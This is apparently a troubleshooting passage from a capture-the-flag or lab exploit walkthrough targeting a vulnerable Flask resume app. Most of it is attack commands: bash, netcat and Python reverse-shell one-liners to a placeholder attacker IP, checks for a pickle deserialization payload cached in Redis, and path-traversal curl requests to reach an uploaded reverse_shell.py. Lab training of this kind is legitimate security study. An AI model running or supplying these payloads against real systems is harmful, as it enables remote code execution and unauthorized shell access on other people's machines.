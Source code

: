 ```

# Verify your IP address is correct
# Test connectivity from container (if you have access)
ping YOUR_IP

# Try bash reverse shell instead
cmd = '/bin/bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'

# Try nc reverse shell
cmd = 'nc -e /bin/bash YOUR_IP 4444'

# Try Python reverse shell (inline)
cmd = 'python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\'YOUR_IP\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\'/bin/bash\',\'-i\'])"'
```

### Pickle Payload Not Executing

```bash
# Verify payload was cached
redis-cli -h localhost -p 6379
AUTH password
EXISTS flask_cache_exploit
GET flask_cache_exploit

# Check application logs
docker logs resumecrunch-app

# Verify you're triggering the right endpoint
# Review app.py for cached routes

# Try setting payload with different cache key
# Match existing cache key patterns from KEYS * output
```

### Can't Access Uploaded Files

```bash
# Verify upload succeeded
curl http://localhost:8080/static../resumes/ | grep reverse_shell

# Check if filename changed
ls -la /app/resumes/  # (if you have shell access)

# Try different path traversal depths
curl http://localhost:8080/static../app/resumes/reverse_shell.py

# Verify file permissions
# File must be readable by application user
```
